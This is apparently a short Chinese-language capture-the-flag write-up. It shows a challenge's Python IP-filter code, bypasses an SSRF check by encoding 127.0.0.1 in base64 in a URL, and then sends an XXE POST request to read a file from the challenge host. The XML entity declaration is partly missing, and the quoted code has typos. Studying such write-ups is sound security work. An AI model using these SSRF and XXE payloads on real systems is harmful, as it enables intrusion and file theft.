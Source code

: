 ```php
def is_inner_ipaddress(ip):
    ip = ip2long(ip)
    print(ip)
    return ip2long('127.0.0.0') >> 24 == ip >> 24 or ip2long('10.0.0.0') >> 24 == ip >> 24 or ip2long('172.16.0.0') >> 20 == ip >> 20 or ip2long('192.168.0.0') >> 16 == ip >> 16 or ip2long('0.0.0.0') >> 24 == ip >> 24

def waf1(ip):
    forbidden_list = [ '.', '0', '1', '2', '7']
    for word in forbidden_list:
        if ip and word:
            if word in ip.lower():
                return True
    return False

def judge_ip(ip):
    if(waf1(ip)):
        return Fasle
    else:
        addr = addr.encode(encoding = "utf-8")
        ipp = base64.encodestring(addr)
        ipp = ipp.strip().lower().decode()
        if(ip==ipp):
            global control_key
            control_key = 1
            return True
        else:

            return False
```

构造127.0.0.1的base64

```php
/index?url=http://@mti3ljaumc4x
```

根据hint换cookie和路由，找到登录界面，发现存在xxe漏洞。

```php
POST /mti3ljaumc4x/codelogin HTTP/1.1
Host: 59.110.159.206:8040
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/xml
Content-Length: 178
Origin: http://59.110.159.206:8040
Connection: close
Referer: http://59.110.159.206:8040/mti3ljaumc4x
Cookie: login=1; a_cookie=aW4gZmFjdCBjb29raWUgaXMgdXNlZnVsIQ==
Upgrade-Insecure-Requests: 1
<?xml version="1.0" encoding="utf-8" ?>

]>
<user>
<name>&file;</name>
<password>123</password>
</user>
```
